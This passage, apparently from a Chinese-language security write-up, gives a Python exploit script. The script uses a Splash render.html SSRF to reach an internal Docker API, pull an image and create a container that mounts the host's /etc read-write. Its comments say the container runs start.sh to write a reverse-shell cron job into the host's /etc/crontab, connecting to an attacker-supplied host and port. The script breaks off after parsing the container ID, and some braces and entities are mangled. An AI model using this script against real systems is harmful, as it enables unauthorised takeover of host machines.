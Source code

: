 搜了一下，在 github issue 里找到了原因，得用post请求，并且 headers 得在 body里，且类型为 json，略坑，这里给出利用脚本，代码有注释，大家可以自己看看



```
# -*- coding: utf-8 -*-
__author__ = 'b1ngz'
import json
import re
import requests
def pull_image(api, docker_api, image_name, image_tag):
    print("pull image: %s:%s" % (image_name, image_tag))
    url = "%s/render.html" % api
    print("url: %s" % url)
    docker_url = '%s/images/create?fromImage=%s&amp;tag=%s' % (docker_api, image_name, image_tag)
    print("docker_url: %s" % docker_url)
    params = `{`
        'url': docker_url,
        'http_method': 'POST',
        'body': '',
        'timeout': 60
    `}`
    resp = requests.get(url, params=params)
    print("request url: %s" % resp.request.url)
    print("status code: %d" % resp.status_code)
    print("resp text: %s" % resp.text)
    print("-" * 50)
def create_container(api, docker_api, image_name, image_tag, shell_host, shell_port):
    image = "%s:%s" % (image_name, image_tag)
    print("create_container: %s" % image)
    body = `{`
        "Image": image,
        "Volumes": `{`
            "/etc": `{`  # 挂载根目录有时候会出错，这里选择挂载/etc
                "bind": "/hostdir",
                "mode": "rw"
            `}`
        `}`,
        "HostConfig": `{`
            "Binds": ["/etc:/hostdir"]
        `}`,
        "Cmd": [  # 运行 start.sh，将反弹定时任务写入宿主机/etc/crontab
            '/bin/sh',
            '/start.sh',
            shell_host,
            str(shell_port),
        ],
    `}`
    url = "%s/render.html" % api
    docker_url = '%s/containers/create' % docker_api
    params = `{`
        'http_method': 'POST',
        'url': docker_url,
        'timeout': 60
    `}`
    resp = requests.post(url, params=params, json=`{`
        'headers': `{`'Content-Type': 'application/json'`}`,
        "body": json.dumps(body)
    `}`)
    print(resp.request.url)
    print(resp.status_code)
    print(resp.text)
    result = re.search('"Id":"(w+)"', resp.text)
    container_id = result.group(1)
    print(container_id)
```